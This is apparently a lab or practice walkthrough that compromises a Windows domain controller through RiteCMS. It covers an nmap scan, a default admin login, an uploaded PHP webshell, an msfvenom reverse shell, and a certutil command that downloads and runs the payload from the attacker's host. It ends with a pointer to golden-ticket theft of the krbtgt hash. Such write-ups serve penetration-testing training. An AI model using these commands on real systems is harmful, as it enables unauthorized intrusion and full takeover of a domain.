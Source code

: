 # 0. Sources

||||
|---|---|---|
|[Reddit](https://www.reddit.com/r/oscp/comments/s5puw0/attack_this_active_directory_machine_and_get_your/)|[YouTube](https://www.youtube.com/watch?v=MPrJF3F4mHc)|[Download](https://drive.google.com/file/d/1qCyMsfU6wx67wqV9OEavFYyg66g4QXjK/view)|

<details>
  <summary><h1>1. Nmap Scan</h1></summary>

```console
┌──(root㉿kali)-[~]
└─# nmap -p- -A 10.0.88.38
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-06 19:33 +08
Nmap scan report for 10.0.88.38
Host is up (0.0029s latency).
Not shown: 65506 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/7.4.27)
|_http-title: RiteCMS 3.0 demo - home
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/7.4.27
| http-robots.txt: 1 disallowed entry
|_1
|_http-generator: RiteCMS 3.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-12-06 11:34:12Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: windomain.local, Site: Default-First-Site-Name)
443/tcp   open  ssl/http      Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/7.4.27)
| tls-alpn:
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| http-robots.txt: 1 disallowed entry
|_1
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/7.4.27
|_http-generator: RiteCMS 3.0
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: RiteCMS 3.0 demo - home
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds (workgroup: WINDOMAIN)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: windomain.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3306/tcp  open  mysql?
| fingerprint-strings:
|   DNSVersionBindReqTCP, GenericLines, NULL, SSLSessionReq:
|_    Host '192.168.17.10' is not allowed to connect to this MariaDB server
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=dc.windomain.local
| Not valid before: 2022-12-05T11:24:42
|_Not valid after:  2023-06-06T11:24:42
| rdp-ntlm-info:
|   Target_Name: WINDOMAIN
|   NetBIOS_Domain_Name: WINDOMAIN
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: windomain.local
|   DNS_Computer_Name: dc.windomain.local
|   DNS_Tree_Name: windomain.local
|   Product_Version: 10.0.14393
|_  System_Time: 2022-12-06T11:35:19+00:00
|_ssl-date: 2022-12-06T11:35:29+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
49737/tcp open  msrpc         Microsoft Windows RPC
49858/tcp open  msrpc         Microsoft Windows RPC
⋮
```

</details>

# 2. Checking for exploits

The target has RiteCMS on HTTP and HTTPS, searching for it on **Exploit-DB** returns a plausible [RCE exploit](https://www.exploit-db.com/exploits/50616).

The exploit requires admin on RiteCMS to upload a webshell file, googling for RiteCMS default login show admin/admin as the login

☝️ Always check for default login, it may not work most of the time in real life, but it saves a lot of time when it actually does

The exploit details provides a simple webshell code: `<?php system($_GET[base64_decode('Y21k')]);?>`

`base64_decode('Y21k')` = `cmd`; the webshell will execute the command that in the `cmd` parameter passed to the web server via `GET` method

Save the code as `webshell.pHp` and upload to `File Manager`:

![image](https://user-images.githubusercontent.com/90442032/205908195-9b7742af-c567-4b2c-b380-9a8396d9a6db.png)

Test the webshell:

```console
┌──(root㉿kali)-[~]
└─# curl http://10.0.88.38/media/webshell.pHp?cmd=whoami%20%2Fgroups

GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
BUILTIN\Administrators                 Alias            S-1-5-32-544 Enabled by default, Enabled group, Group owner
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
Mandatory Label\System Mandatory Level Label            S-1-16-16384
```

Well done, we got a `SYSTEM`-level RCE, let's try to get a shell

# 3. Getting a shell

Generate reverse shell executable and place in web server root:

(Apache2 is already running with DocumentRoot at `/var/www/html`)

```console
┌──(root㉿kali)-[~]
└─# msfvenom -p windows/x64/shell_reverse_tcp LHOST=kali.vx LPORT=4444 -f exe -o /var/www/html/reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: /var/www/html/reverse.exe
```

Open another console window on Kali to listen for connections:

```console
┌──(root㉿kali)-[~]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
```

Getting the target to download and run the reverse shell:

☝️ The command we want to run is `certutil.exe /urlcache /f /split http://kali.vx/reverse.exe && .\reverse.exe`, but since we are running it from URL, we need to [URL encode](https://www.urlencoder.org/) the command

```console
┌──(root㉿kali)-[~]
└─# curl http://10.0.88.38/media/webshell.pHp?cmd=certutil.exe%20%2Furlcache%20%2Ff%20%2Fsplit%20http%3A%2F%2Fkali.vx%2Freverse.exe%20%26%26%20.%5Creverse.exe
```

Verify that the reverse shell has hooked on from the listener console

```cmd
connect to [192.168.17.10] from (UNKNOWN) [10.0.88.38] 50689
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\media>whoami
whoami
nt authority\system

C:\xampp\htdocs\media>whoami /groups
whoami /groups

GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
BUILTIN\Administrators                 Alias            S-1-5-32-544 Enabled by default, Enabled group, Group owner
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
Mandatory Label\System Mandatory Level Label            S-1-16-16384
```

Excellent, we now have `SYSTEM`-level shell on the target

# 4. Attacking Active Directory

Since we already have a `SYSTEM`-level shell on a domain controller, we can get on directly to retrieving the `krbtgt` hash in [attacking the Active Directory](../../attacking-active-directory.md#5-golden-ticket)
